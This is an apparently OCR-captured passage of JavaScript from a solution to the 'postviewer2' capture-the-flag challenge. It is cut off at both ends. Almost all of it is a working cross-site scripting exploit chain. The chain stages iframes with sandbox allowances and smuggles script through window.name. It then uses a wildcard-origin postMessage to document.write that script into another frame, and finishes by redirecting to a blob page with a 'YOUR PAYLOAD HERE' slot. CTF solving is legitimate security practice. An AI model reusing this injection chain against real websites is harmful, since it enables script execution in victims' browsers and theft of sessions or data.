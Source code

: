 ``` html
      url = 'https://sbx-gggg.postviewer2-web.2023.ctfcompetition.com/bomb'
      brokenFrame.src = url
      brokenFrame.sandbox = 'allow-modals allow-scripts allow-top-navigation allow-same-origin'
      brokenFrame.addEventListener('load', () => {
        console.log('brokenFrame loaded')
        resolve()
      }, { once: true });
      brokenFrame.addEventListener('error', (e) => {
        console.log('brokenFrame error', e)
        resolve()
      }, { once: true });
      document.body.appendChild(brokenFrame)
    })
  }

  function createXssFrame() {
    console.log('createXssFrame')
    window.xssFrame = document.createElement("iframe")
    url = new URL("https://sbx-gggg.postviewer2-web.2023.ctfcompetition.com/shim.html");
    url.searchParams.set('o', window.origin);
    xssFrame.src = url
    xssFrame.sandbox = 'allow-modals allow-scripts allow-top-navigation allow-same-origin'
    xssFrame.name = `
            const blob = new Blob(['<html><head><script src="YOUR PAYLOAD HERE" /><script>alert(1)</scr' + 'ipt></head><body><div /></body></html>'], {
                type: 'text/html'
            });
            url = URL.createObjectURL(blob)
            console.log(url)
            window.top.location = url
    `;

    xssFrame.addEventListener('load', () => {
      console.log('xss frame loaded')

      window.xssFrame.contentWindow.postMessage({
        body: `
          <script>
            top.frames[1].document.open()
            console.log('writing');
            console.log('<script>' + window.parent.name + '</scr' + 'ipt>');
            top.frames[1].document.write('<script>' + window.parent.name + '</scr' + 'ipt>')
          <\/script>`, mimeType: "text/html", sandbox: ["allow-modals", "allow-scripts", "allow-top-navigation", ["allow-same-origin"], ["allow-same-origin"]]
      }, "*")
    }, { once: true });
    document.body.appendChild(xssFrame)
  }

  async function main() {
    createBombFrame()
    console.log("sleeping")
    await sleep(2000)
    console.log("creating broken frame")
    await createBrokenFrame()
    createXssFrame()
  }

  window.addEventListener('message', e => {
    console.log('got message', e, window.location.toString());
  })

  window.addEventListener('load', () => {
```